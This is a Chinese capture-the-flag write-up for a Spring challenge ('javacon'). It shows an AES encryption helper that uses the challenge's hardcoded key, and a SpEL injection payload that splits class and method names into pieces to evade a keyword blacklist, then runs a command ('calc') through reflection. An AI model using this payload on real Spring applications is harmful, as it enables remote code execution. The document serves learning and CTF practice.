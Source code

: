 # javacon

贴一下如何调试jar文件

![image-20220110150643062](https://img.dem0dem0.top/images/image-20220110150643062.png)

然后运行的时候

```
java -Xdebug -Xrunjdwp:transport=dt_socket,address=5005,server=y,suspend=y -jar challenge-0.0.1-SNAPSHOT.jar
```

正常访问即可。

## 0x01 源码

spring的配置

![image-20220110150748592](https://img.dem0dem0.top/images/image-20220110150748592.png)

有黑名单过来和用户的账号密码，这个key我记得不错好像是`shiro`的。

![image-20220110151100449](https://img.dem0dem0.top/images/image-20220110151100449.png)

spel的解析表达。百度知道有spel代码注入。

## 0x02 解题

`Runtime.getRuntime().exec("calc")` 这是

![image-20220110151708371](https://img.dem0dem0.top/images/image-20220110151708371.png)

```java

package demo;

import java.util.Base64;
import javax.crypto.Cipher;
import javax.crypto.spec.IvParameterSpec;
import javax.crypto.spec.SecretKeySpec;

public class exp {

    public exp() {
    }

    public static String encrypt(String key, String initVector, String value) {
        try {
            IvParameterSpec iv = new IvParameterSpec(initVector.getBytes("UTF-8"));
            SecretKeySpec skeySpec = new SecretKeySpec(key.getBytes("UTF-8"), "AES");
            Cipher cipher = Cipher.getInstance("AES/CBC/PKCS5PADDING");
            cipher.init(1, skeySpec, iv);
            byte[] encrypted = cipher.doFinal(value.getBytes());
            return Base64.getUrlEncoder().encodeToString(encrypted);
        } catch (Exception var7) {
            var7.printStackTrace();
            return null;
        }
    }

    public static String decrypt(String key, String initVector, String encrypted) {
        try {
            IvParameterSpec iv = new IvParameterSpec(initVector.getBytes("UTF-8"));
            SecretKeySpec skeySpec = new SecretKeySpec(key.getBytes("UTF-8"), "AES");
            Cipher cipher = Cipher.getInstance("AES/CBC/PKCS5PADDING");
            cipher.init(2, skeySpec, iv);
            byte[] original = cipher.doFinal(Base64.getUrlDecoder().decode(encrypted));
            return new String(original);
        } catch (Exception var7) {
            var7.printStackTrace();
            return null;
        }
    }

    public static void main(String[] args){
        System.out.println(encrypt("c0dehack1nghere1","0123456789abcdef","ssss"));
    }
}

```

SPEL注入常用的姿势

```
引用其他对象:#{car}
引用其他对象的属性：#{car.brand}
调用其它方法 , 还可以链式操作：#{car.toString()}

其中属性名称引用还可以用符 号 如 ： 符号 如：符号如：{someProperty}
除此以外在SpEL中，使用T()运算符会调用类作用域的方法和常量。例如，在SpEL中使用Java的Math类，我们可以像下面的示例这样使用T()运算符：

#{T(java.lang.Math)}
1
#{T(java.lang.Math)}
T()运算符的结果会返回一个java.lang.Math类对象。
```

```java
System.out.println(encrypt("c0dehack1nghere1","0123456789abcdef","#{T(String).getClass().forName(\"java.l\"+\"ang.Ru\"+\"ntime\").getMethod(\"ex\"+\"ec\",T(String)).invoke(T(String).getClass().forName(\"java.l\"+\"ang.Ru\"+\"ntime\").getMethod(\"getRu\"+\"ntime\").invoke(T(String).getClass().forName(\"java.l\"+\"ang.Ru\"+\"ntime\")),\"calc\")}"));
```



![image-20220110160812808](https://img.dem0dem0.top/images/image-20220110160812808.png)

结束了，就是一个反射拿到对象然后命令执行即可。

`T(String) == String.class`